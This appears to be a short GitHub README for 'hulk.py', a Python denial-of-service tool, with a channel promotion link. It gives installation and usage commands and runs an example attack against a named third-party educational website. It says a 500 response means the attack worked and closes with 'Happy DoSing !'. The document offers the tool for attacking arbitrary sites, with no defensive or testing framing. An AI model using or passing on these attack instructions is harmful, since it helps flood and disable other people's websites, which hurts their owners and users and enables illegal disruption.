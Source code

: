 Subscribe our channel FemurTech
Link:- http://www.tinyurl.com/femurtech

This contains a file named hulk.py
Hulk.py is one of the best DDoS tools which is written in python.
Installation commands:-
pkg install python2
git clone "link"
chmod +x hulk.py

Usage:- 
python2 hulk.py "link"
Example:- python2 hulk.py http://www.kalkaeducationalsociety.com
Is result come RESPONSE CODE 500 then your DoS attack is successful.
Handshake!!
But some websites blocks you ip which may also show RESPONSE CODE 500
Happy DoSing !
-----END------
